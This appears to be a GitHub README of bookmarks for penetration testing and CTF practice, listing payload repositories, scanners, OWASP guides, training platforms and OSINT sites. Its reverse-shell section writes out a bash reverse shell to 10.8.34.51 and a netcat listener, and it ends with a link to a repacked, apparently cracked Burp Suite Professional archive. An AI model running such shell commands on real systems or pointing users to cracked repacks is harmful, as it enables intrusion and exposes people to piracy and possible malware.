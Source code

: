 <div align="center">
  <img src="https://i.imgur.com/sHcFK7G.jpg">
  <h1 align="center">
</div>
 
## Main links

 - [Temp email](https://linux0.net/)
 - [Cyberchief](https://gchq.github.io/CyberChef/)
 - [JWT.io](https://jwt.io/)
 - [Revshellgenerator](https://tex2e.github.io/reverse-shell-generator/index.html)
 - [SecLists](https://github.com/danielmiessler/SecLists)
 - [bbfuzzing](https://github.com/reewardius/bbFuzzing.txt)
 - [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)
 - [Chat GPT](https://chat.openai.com/)
 - [PEASS-ng](https://github.com/Fananad/PEASS-ng)
 - [Bookmarks](https://github.com/Fananad/offensive-bookmarks/tree/main)
  
## Scan CMS

 - [CMSmap](https://github.com/dionach/CMSmap)
 - [droopescan](https://github.com/SamJoan/droopescan)

## Resourses for reading
  
 - [OWASP WSTG ENG](https://github.com/OWASP/wstg/tree/master/document)
 - [OWASP WSTG RUS](https://github.com/andrettv/WSTG/tree/master/WSTG-ru)
 - [OWASP ASVS RUS](https://github.com/andrettv/ASVS/tree/master/4.0/ru)
 - [HackTricks](https://book.hacktricks.xyz/welcome/readme)
 - [Exploit DB](https://www.exploit-db.com/)
 - [Vulners](https://vulners.com/) 

# Academies
  
  - [PortSwigger](https://portswigger.net/)
  - [Academy](https://academy.hackthebox.com/dashboard/)
  - [TryHackme](https://tryhackme.com/)
  - [HackTheBox](https://www.hackthebox.com/)
  - [Hacker101](https://www.hacker101.com/)
  - [Codeby Games](https://codeby.games/categories)

# Revers shell 

  - [revshell](https://www.revshells.com/)
  - [ngrok](https://ngrok.com/)

  - python -c 'import pty;pty.spawn("/bin/bash")'
  - nc -lvnp 9999
  - sh -i >& /dev/tcp/10.8.34.51/9999 0>&1


# Search

  - [whois](https://whois.domaintools.com/)
  - [archive](https://archive.org/)
  - [archive ip,dns](viewdns.info)
  - [ip на одном хосте](https://suip.biz/ru/)

# APP
  - [cmd injection commix](https://github.com/commixproject/commix)
  - [ssti tplmap](https://github.com/epinna/tplmap)
  - [ngrok](https://ngrok.com/download)
  - [.DS_Srore](https://github.com/gehaxelt/Python-dsstore)

# Web hook

  - [webhook](https://webhook.site)
  - [equestbin](https://requestbin.com/r/)
  - [pipedream](https://pipedream.com)


## Download Burp

[CLICK THIS LINK](https://github.com/Maverick-25/Burp-Suite/releases/download/tool/Burp_Suite_Professional_2023.6.1_2023june15_repack-pwn3rzs.7z)
